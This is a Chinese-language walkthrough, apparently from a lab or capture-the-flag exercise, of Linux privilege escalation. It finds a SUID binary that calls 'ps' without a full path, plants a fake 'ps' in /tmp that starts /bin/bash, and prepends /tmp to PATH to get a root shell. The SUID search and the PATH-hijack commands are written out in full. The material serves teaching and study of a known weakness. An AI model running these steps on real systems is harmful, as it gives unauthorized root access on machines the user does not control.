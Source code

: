 **攻击利用**：

首先，你需要先入侵靶机系统并且进入到提权阶段。假设你已经通过ssh成功登录到了靶机上，二话不说，我们直接使用find命令来搜索具有SUID或4000权限的文件。

```
find / -perm -u=s -type f 2>/dev/null
```

通过执行上述命令，攻击者可以遍历任何可执行文件，在这里我们可以看到/home/yokan/script目录下的shell文件具有SUID权限，如图：

![image-20231120230613588](assets/image-20231120230613588.png)

于是我们cd到/home/yokan/script/目录下，ls一下，看到了名为shell的可执行文件。我们运行一下这个文件，可以看到shell文件尝试执行ps命令，这个命令是/bin目录下的用来查看进程状态的真实文件。

```
ls
./shell
```

![image-20231120230655591](assets/image-20231120230655591.png)

提权：

**echo命令**

```shell
cd /tmp
echo “/bin/bash” > ps
chmod 777 ps
echo $PATH
export PATH=/tmp:$PATH
cd /home/yokan/script
./shell
whoami
```

![image-20231120230902735](assets/image-20231120230902735-17004929436463.png)
